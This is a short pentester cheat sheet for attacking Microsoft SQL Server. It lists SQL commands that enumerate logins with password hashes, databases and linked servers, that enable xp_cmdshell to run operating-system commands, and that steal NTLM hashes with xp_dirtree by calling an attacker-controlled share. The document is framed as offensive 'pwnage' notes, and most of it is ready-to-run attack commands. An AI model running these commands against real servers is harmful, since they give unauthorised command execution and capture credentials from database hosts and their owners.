 # pwning_mssql

#tools
#if you have a windows box u can use the SQL Management Studio (no really it's a good idea to take a look at this!)
# take a look at the msf modules, nmap sql modules
# also look at the sqlclient in impacket: mssqlclient.py -db db_sharepoint sa@192.168.1.10

#resources (this chap has made just an awesome collection of pwnage intel)
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links


#get SQL version
select @@version

#find out who we are
select suser_name();
select name,sysadmin from syslogins;

#list all users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

#list all databases
SELECT name FROM master.sys.databases;
#change database
use Database_Name;

#list advanced options
sp_configure 'show advanced options', '1'
RECONFIGURE
sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
#check what account is being used
EXEC master..xp_cmdshell 'whoami'

#steal hashes using xp_dirtree
xp_dirtree '\\attackerIP\share'
exec master.dbo.xp_dirtree '\\attackerIP\share'

#list all tables

SELECT * FROM DATABASE_NAME.INFORMATION_SCHEMA.TABLES;

#list all servers
select srvname, isremote from sysservers;

